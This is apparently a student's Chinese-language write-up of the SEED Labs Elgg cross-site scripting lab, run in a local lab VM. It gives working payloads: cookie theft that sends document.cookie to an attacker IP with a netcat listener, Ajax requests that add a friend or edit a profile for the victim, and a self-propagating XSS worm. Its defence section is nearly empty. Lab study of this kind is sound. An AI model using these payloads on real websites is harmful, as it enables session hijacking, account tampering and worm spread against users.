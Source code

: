 # Cross-Site Scripting Attack

Cross-site scripting (XSS) 跨站脚本攻击. 

在缺乏对危险内容 (恶意代码片段等) 过滤的网站中, 可能存在恶意用户提交危险内容, 当正常用户浏览访问危险内容的时候, 自己的网页会被危险内容篡改. 

::: tip
Cross-site scripting 的英文首字母缩写本应为CSS, 但是吧, 所以将 Cross (意为"交叉") 改以交叉形的 X 做为缩写.
:::

[地址](https://seedsecuritylabs.org/Labs_16.04/Web/Web_XSS_Elgg/)

[实验指导](https://seedsecuritylabs.org/Labs_16.04/PDF/Web_XSS_Elgg.pdf)

[wiki](https://zh.wikipedia.org/wiki/跨網站指令碼)

## 预备知识
- HTTP 
- JavaScript
- Ajax

## 实验环境
在下载的 Ubuntu 中包含了一个名为 Elgg 的 Web 应用, 它在路径 `/var/www/XSS/Elgg/` 下, 本地浏览器访问 `http://www.xsslabelgg.com`, 实验指导中给出了相应的用户信息. 

为了方便测试, 可以打开两个虚拟机方便登上两个不同账号, 相互访问吗, 配置其中一个虚拟机的 `/etc/hosts` 将 `127.0.0.1` 修改为另一个虚拟机的 IP. 

<!-- 此外, 使用 `console.log` 来代替 `alert` 可能更好的体验.  -->

## 实验任务

### T1 Posting a Malicious Message to Display an Alert Window

某个用户在自己的 profile 页面中输入一段 JS 片段, 其他用户访问此用户的 profile 页面时, JS 片段会被自动加载执行. 

``` HTML
<script>alert('XSS');</script>
```
::: warning 注意
实验指导中的单引号是非法字符. 
:::

### T2 Posting a Malicious Message to Display Cookies

在 T1 的基础上将单纯的 `alert` 修改为能够获取访问用户的 Cookies 的 JS 片段. 

``` HTML
<script>alert(document.cookie);</script>
```

还可以获取其他需要的有价值数据. 

### T3 Stealing Cookies from the Victim’s Machine

在 T2 中, 我们能够获取访问用户的 Cookies 数据, 但是作为攻击者, 这些数据是看不到的, 所以, 我们希望在获取数据之后直接发送给攻击者

作为攻击者, 我们可以利用系统中的 netcat 工具, 监听 5555 端口, 
``` sh
nc -l 5555 -v
```
同时在自己的 profile 页面中插入 (修改 src 中的 ip 为攻击者的 ip):
``` HTML
<script>
document.write('<img src = http://10.1.2.5:5555?c=' + escape(document.cookie) + ' >');
</script>
```
利用 `img` 标签, 受害者在获取 "图片" 时会自动发送不该发送的数据. 

### T4 Becoming the Victim’s Friend

让受害者直接添加攻击者为好友. 这里会用到很有年代感的 Ajax. 

首先需要尝试添加好友, 观察浏览器发送的请求. 可以得到:
``` http
http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1580819905&__elgg_token=8a8mQrbPSXQooe1smJqxkQ&__elgg_ts=1580819905&__elgg_token=8a8mQrbPSXQooe1smJqxkQ
```

这里参数 friend 是攻击者 ID, 也就是 Samy 的 ID, __elgg_ts 是什么不清楚, __elgg_token 是什么不清楚. 

拼装 JS . 
``` HTML
<script type="text/javascript">
    window.onload = function () { 
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        // 拼装请求 URL , 47 是 Samy 的 id
        var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=" + ts + "&__elgg_token=" + token + "&__elgg_ts=" + ts + "&__elgg_token=" + token; 
        // Ajax
        var Ajax=null;
        Ajax=new XMLHttpRequest(); 
        Ajax.open("GET",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com"); 
        Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded"); 
        Ajax.send();
    } 
</script>
```

::: tip
这一段内容应该放入到 Samy Profile 页面 about me 的文本框中, 并选择 HTML 模式输入, 默认的文本模式会在代码片段边上插入一些不该有的 HTML 内容. 
:::

例如 Alice 访问 Samy 的 profile 页面, 再到自己的 friend 页面中, 就会发现 "好友" Samy. 

### T5 Modifying the Victim’s Profile

修改受害者的 profile, 和 T4 对应, 这里需要用 Ajax 发送一个 POST 请求. 

在发送自己的 POST 请求之前, 我们需要查看修改 profile 时, 浏览器发送的请求, 尤其关注 DataForm. 

``` HTML {8,10,17}
<script type="text/javascript"> 
    window.onload = function() {
        var userName=elgg.session.user.name;
        var guid = "&guid=" + elgg.session.user.guid;
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
        // 组装需要 POST 的数据
        var content = 
            "__elgg_token=" + token + "&__elgg_ts=" + ts + "&name=" + userName + 
            "&description=&accesslevel[description]=2&briefdescription=;;;;;;;;;;;;;;;;" + 
            "&accesslevel[briefdescription]=2&location=&accesslevel[location]=2" + 
            "&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2" + 
            "&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2" + 
            "&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=" + 
            "&accesslevel[twitter]=2&guid=" + guid; 
        var samyGuid = 47; 
        if (elgg.session.user.guid != samyGuid) {
            var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
            // AJax
            var Ajax=null;
            Ajax = new XMLHttpRequest(); 
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send(content); 
        }
    }
</script>
```
8 行 content 就对应 POST 请求中的 DataForm, 可以将其中的 `briefdescription` (10 行) 修改为 `;;;;;;;;;;;;;;;;`, 这样, 用户访问 Samy 主页时, 自己的 profile 中的 description 会被修改为多个分号. 

17 行的 if 判断是为了防止 Samy 自己被自己攻击. 

### T6 Writing a Self-Propagating XSS Worm

编写 XSS 蠕虫加速传播. 我们需要让用户访问攻击者 profile 时, 自动加载运行危险的 JS 代码, 这段代码会修改访问者的 profile 并使其成为攻击者.  

结合 T1 中的操作, 可以将 T5 中的 JS 部分提取成一个 JS 文件, 比如 test.js 文件, 姑且放到 `/var/www/XSS/Elgg/` 路径下, 并对 content 部分进行修改,将分号替换成:
``` HTML
<script type='text/javascript' src='www.xsslabelgg.com/test.js'> </script>
```
我们希望在访问 Samy profile 页面时, test.js 可以被加载运行, test.js 的 content 部分被修改为:
``` JS {4}
var content = 
    "__elgg_token=" + token + "&__elgg_ts=" + ts + "&name=" + userName + 
    "&description=&accesslevel[description]=2" + 
    "&briefdescription=<script type='text/javascript' src='www.xsslabelgg.com/test.js'></script>" + 
    "&accesslevel[briefdescription]=2&location=&accesslevel[location]=2" + 
    "&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2" + 
    "&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2" + 
    "&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=" + 
    "&accesslevel[twitter]=2&guid=" + guid; 
```
Samy 自己的 profile 页面内的 description 也添加那段短短的 HTML 并提交. 

这时候, 让 Alice 访问 Samy, 他的 profile 会被修改, 同时他也具备了攻击他人的能力, 当 Boby 访问 Alice 主页的时候, 他的 profile 也会被修改也会成为一个新的攻击者. 

### T7 Countermeasures
实验项目自带了安全措施, 照做. Why

## 防御 XSS 攻击的建议

[美团技术团队-前端安全系列（一）：如何防止XSS攻击？](https://juejin.im/post/5bad9140e51d450e935c6d64)

### 过滤用户提交的内容

### 设置输入类型
